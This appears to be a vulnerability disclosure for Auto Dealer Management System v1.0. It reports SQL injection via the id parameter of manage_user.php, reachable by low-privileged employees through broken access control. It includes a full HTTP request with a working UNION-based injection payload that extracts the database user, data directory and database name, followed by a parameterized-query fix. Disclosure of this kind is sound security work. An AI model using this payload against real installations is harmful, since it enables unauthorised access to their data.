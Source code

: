 # Auto Dealer Management System - SQL Injection on page manage_user.php and parameter is id, application url is (?page=user/manage_user&id=?) with low privilege authentication.

### Date: 
> 18 February 2023
### Author Name: 
> Muhammad Navaid Zafar Ansari
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Auto Dealer Management System](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.
### Affected Page:
> manage_user.php

> On this page id parameter is vulnerable to SQL Injection Attack

> URL of the vulnerable parameter is: ?page=user/manage_user&id=*

### Description:
> The auto dealer management system supports two roles of users, one is admin, and another is a normal employee. the detail of role is given below
+ Admin user has full access to the system 
+ Employee user has only a few menu access i.e. dashboard, car models and vehicle (available and transaction)
> Although, employee user doesn't have manage_user.php access but due to broken access control, employee could able to perform the SQL Injection by opening manage_user.php page. Therefore, low-privileged users could able to get the access full system.

### Proof of Concept:
> Following steps are involved:
1. Employee guess the page manager_user.php and pass the random id parameter that parameter is vulnerable to SQL injection (?page=user/manage_user&id=1*)
### Request:
```
GET /adms/admin/?page=user/manage_user&id=1%27+and+false+union+select+1,user(),@@datadir,4,database(),6,7,8,9,10,11--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c1ig2qf0q44toal7cqbqvikli5
Connection: close
```

### Response:

![image](https://user-images.githubusercontent.com/123810418/219888637-627e3abb-4b7a-45e6-a22c-3a5c11b75b61.png)

### Recommendation:
> Whoever uses this CMS, should update the code of the application in to parameterized queries to avoid SQL Injection attack:
```
Example Code: 
$sql = $obj_admin->db->prepare("SELECT * FROM users where id = :id ");
$sql->bindparam(':id', $id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```
Thank you for reading
